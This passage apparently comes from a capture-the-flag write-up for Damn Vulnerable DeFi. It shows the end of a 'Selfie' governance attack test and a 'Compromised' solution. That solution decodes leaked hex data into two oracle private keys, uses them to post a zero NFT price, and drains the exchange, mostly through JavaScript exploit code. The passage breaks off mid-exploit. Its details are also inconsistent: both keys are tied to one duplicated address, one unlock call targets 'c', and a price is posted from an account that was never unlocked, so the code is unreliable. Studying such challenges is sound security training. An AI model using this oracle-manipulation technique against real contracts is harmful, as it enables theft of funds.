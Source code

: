 ```javascript
        this.attackercontract = await SelfieAttacker.new(this.pool.address, this.governance.address, { from: deployer });  
        await this.attackercontract.attack();
        await time.increase(time.duration.days(3));
        await this.attackercontract.callAction(attacker);    
    });
```

## [7. Compromised](https://www.damnvulnerabledefi.xyz/challenges/7.html)

We need to steal all of the ETH available on the exchange by tampering with the oracles setting the NFT price. The price is set by with median price from 3 oracles: `0xA73209FB1a42495120166736362A1DfA9F95A105`,`0xe92401A4d3af5E446d93D11EEc806b1462b39D15` and `0x81A5D6E50C214044bE44cA0CB057fe119097850c`. The challenge also gives us the following info:

```
    HTTP/2 200 OK
    content-type: text/html
    content-language: en
    vary: Accept-Encoding
    server: cloudflare

    4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

    4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
        
```

Dropping each hex snippet into [CyberChef](https://gchq.github.io/CyberChef/) using the `Magic` operation, we get `0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9` and `0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48` respectively. The 2 returned hex strings look a bit long for addresses, and after poking around we find that we have 2 private keys corresponding to `0xe92401A4d3af5E446d93D11EEc806b1462b39D15` and `0xe92401A4d3af5E446d93D11EEc806b1462b39D15`. Since we have the keys of 2 of the 3 oracles, we can set the price to anything we want. This is enough to drain the funds from the exchange, as follows:

```javascript
    it('Exploit', async function () {
        //import first oracle
        await web3.eth.personal.importRawKey('0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9', '');
        await web3.eth.personal.unlockAccount('0xe92401A4d3af5E446d93D11EEc806b1462b39D15', '', 10000000);
        
        //import second oracle
        await web3.eth.personal.importRawKey('0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48', '');
        await web3.eth.personal.unlockAccount('c', '', 10000000);
        
        //we get the median price, so changing 2 of the 3 to the same value will become the median. Change price to 0 ether
        await this.oracle.postPrice("DVNFT", 0, {from: '0xe92401A4d3af5E446d93D11EEc806b1462b39D15'});
        await this.oracle.postPrice("DVNFT", 0, {from: '0x81A5D6E50C214044bE44cA0CB057fe119097850c'});

        //send some ether, it gets refunded anyway
        await this.exchange.buyOne({value: ether('1')});

```